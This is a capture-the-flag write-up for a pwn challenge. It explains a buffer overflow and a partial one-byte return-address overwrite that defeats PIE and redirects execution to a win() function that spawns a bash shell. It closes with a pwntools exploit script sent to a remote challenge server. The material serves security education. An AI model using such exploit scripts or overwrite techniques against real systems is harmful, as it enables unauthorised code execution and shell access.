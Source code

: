 The function as we can see takes a single parameter `param_1` of type `long`. The purpose of this function is to read a string of characters from the standard input until a `newline character ('\n')` is encountered. The characters are then stored in memory starting from the address specified by the parameter `param_1`. This which trigger the BOF.

We can also find that there is an unused function called `win()` so let's check it and as it's appears it's our target to get a easy shell

```c
void win(void)

{
  alarm(0);
  execl("/bin/bash","/bin/bash",0);
  return;
}
```

## **Ret2win Approach**

A `ret2win` is simply a binary where there is a `win()` function (or equivalent) once you successfully redirect execution there, you complete the challenge.

So in order to redirect the execution to this unused function we have to overwrite the `RIP` to point ot this function but as we saw before the `PIE` protection is enabled this time this means every time the binary run a binary randomization is happened so we will never now the correct address of the win function each time.

## **1-byte Buffer Overflow**

The 1 byte buffer overflow approach can help us in this situation because using this approach we don't need to know the exact full address of the `win()` function we just need to now the last byte of it which will be always the same for explanation. 

let's explain it more : 

Our `win()` function at this address `001013cb` before we run the binary and the `PIE` took effect after we run it the `win()` be at address `00005555555553cb` as you can see the last byte still the same and this will happened for all the functions

## **Exploitation**

So let's first check the offset of overwrite the `RIP` and as we can see the offset is `24`

![](/assets/img/ctf/pwn/Time is but a Window/Exploit1.png)

So let's write our exploit to start with 24 byte of junk then the last byte of the `win()` function which is `0xcb`

```python
from pwn import *

# Binary filename
exe = './challenge.bin'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# Connect to the remote IP and Port
io = remote("34.123.210.162","20234")

payload = flat([
    b'A' * 24,
    b'\xcb'
])

# Wait to get the 'Choice: ' string then send 1 to select the firs option
io.sendlineafter(b'Hello! What\'s your name?: ',payload)
```